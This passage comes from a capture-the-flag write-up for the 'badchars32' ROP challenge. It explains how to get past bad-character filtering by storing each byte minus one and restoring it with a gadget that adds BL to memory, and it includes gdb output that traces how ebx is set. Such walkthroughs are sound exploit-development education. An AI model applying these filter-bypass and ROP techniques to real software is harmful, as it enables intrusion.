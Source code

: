 "a" is a bad character, but we modified it from "`" to "a" in memory, after an initial bad-character check by the process as it starts up.
 
# BL Register

So, we should be able to just put a "1" in the BL register, and change all bad characters to their hex equivalent minus one. That way, when we use the ROP gadget that adds BL to *ebp, we are changing characters to what they were meant to be.
	ex:
	bad char = "a"
	So, we change it to "\x61" - "\x1" = "\x60"
	When we add BL ("\x1") to *ebp ("\x60"), we get the original character that we want ("\x61" = "a")


# Where to Put?

Now that we have identified values that we want in the BL register, we need to identify where they go...
We know that BL is the least significant Byte of the value stored in the ebx register. 
Let's use gdb to figure it what ebx is, and how that is determined. 
Open gdb and run the program with an input of 40 A's.

We should manually step through the program to figure out at what point ebx is modified. 


```asm
●  0xf7f917c9 <pwnme+268>      nop    
   0xf7f917ca <pwnme+269>      mov    ebx, DWORD PTR [ebp-0x4]
 → 0xf7f917cd <pwnme+272>      leave  
   0xf7f917ce <pwnme+273>      ret    
   0xf7f917cf <print_file+0>   push   ebp
   0xf7f917d0 <print_file+1>   mov    ebp, esp
   0xf7f917d2 <print_file+3>   push   ebx
   0xf7f917d3 <print_file+4>   sub    esp, 0x34
─────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "badchars32", stopped 0xf7f917cd in pwnme (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xf7f917cd → pwnme()
[#1] 0x80485ba → __libc_csu_init()
[#2] 0x804854f → usefulGadgets()
[#3] 0x80485ba → __libc_csu_init()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  i r bl
bl             0x41                0x41
gef➤  i r ebx
ebx            0x41414141          0x41414141
gef➤  i r ebp
ebp            0xfff9f708          0xfff9f708
gef➤  x/wx $ebp
0xfff9f708:	0x42424242
gef➤  x/wx $ebp-0x4
0xfff9f704:	0x41414141
gef➤  x/2wx $ebp-0x4
0xfff9f704:	0x41414141	0x42424242
```
